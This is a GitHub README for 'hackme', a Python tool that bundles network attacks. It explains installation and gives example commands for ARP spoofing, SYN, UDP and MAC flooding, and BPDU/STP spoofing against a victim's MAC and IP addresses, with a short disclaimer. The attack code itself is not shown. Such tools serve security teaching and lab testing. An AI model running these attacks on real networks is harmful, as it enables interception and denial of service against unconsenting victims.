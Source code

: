 
# Hack Me

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
[![GitHub license](https://img.shields.io/github/license/nadzyah/hackme?style=for-the-badge)](https://github.com/nadzyah/hackme/blob/main/LICENSE)

A collection of scripts that implement different network attacks. **For information purposes only.** 

Any contributor to this project doesn't take any responsibility for illegal usage of any script from this project.

# Installation and Usage

The tested environment:
* Python v3.10
* Ubuntu 22.04 LTS

Make sure that `python3-scapy` is installed on your system: `sudo apt-get install python3-scapy`

You can either run `hackmeapp.py` from a checkout of the code, or install it like any other python project. Keep in mind that a lot of scripts here can be executed only with the root privileges, so you need to run it with sudo.

```bash
$ sudo pip3 install hackme
$ sudo hackme
usage: hackmeapp.py [-h] [--debug] {attack} ...
```

To enter the debug mode, use the `--debug` option after the `hackme` command.

To get the attack description in the terminal, enter `hackme <attack> --desc`


# Implemented Attacks

The following commands include the `--debug` option, which is not required to execute an attack.

## ARP Spoofing

You can read about ARP spoofing attack [here](https://www.wikiwand.com/en/ARP_spoofing).

Example usage:

```bash
$ sudo hackme --debug arpspoof -i wlp2s0 -m aa:aa:aa:aa:aa:aa -gm BB-BB-BB-BB-BB-BB -gip 192.168.0.1 -vm cc:cc:cc:cc:cc:cc -vip 192.168.0.108
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the interface MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `bb:bb:bb:bb:bb:bb` — the gateway's MAC-address
* `192.168.0.1` — the gateway's IP-address
* `cc:cc:cc:cc:cc:cc` — the victim's MAC-address
* `192.168.0.108` — the victim's IP-address

Run `sudo hackme arpspoof --help` to get more information.

## SYN Flood

You can read about SYN flood attack [here](https://www.wikiwand.com/en/SYN_flood).

Example usage:

```bash
$ sudo hackme --debug synflood -d 172.17.17.10 -p 443 -c 1000
```
where:

* `172.17.17.10` — server's IP-address
* `443` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme synflood --help` to get more information.

## UDP Flood

You can read about UDP flood attack [here](https://www.wikiwand.com/en/UDP_flood).

Example usage:

```bash
$ sudo hackme --debug udpflood -d 172.17.17.10 -p 53 -c 1000
```

where:

* `172.17.17.10` — server's IP-address
* `53` — server's port
* `1000` — the number of packets to be sent

Run `sudo hackme udpflood --help` to get more information.

## MAC Flood

You can read about MAC flood attack [here](https://www.wikiwand.com/en/MAC_flooding).

Example usage:

```bash
$ sudo hackme --debug macflood -i lxdbr0 -vm "aa:aa:aa:aa:aa:aa" -c 100000
```

where:

* `lxdbr0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the victim's MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `100000` — the number of packets to be sent

Run `sudo hackme macflood --help` to get more information.

## BPDU Spoofing

On a Layer 2 network, switches running STP, RSTP, MSTP, or VBST exchange BPDUs to calculate a spanning tree and trim the network into a loop-free tree topology. If forged BPDUs are sent to attack a device with edge ports and received by them, the device will automatically change the edge ports to non-edge ports and recalculate the spanning tree. If the bridge priority in the BPDUs sent by an attacker is higher than the priority of the root bridge, the network topology will change, thereby interrupting service traffic.

Example usage:

```bash
sudo ./hackmeapp.py --debug stpspoof -i lxdbr0 -smac "aa:aa:aa:aa:aa:aa" -dmac "bb:bb:bb:bb:bb:bb" -p 45056
```


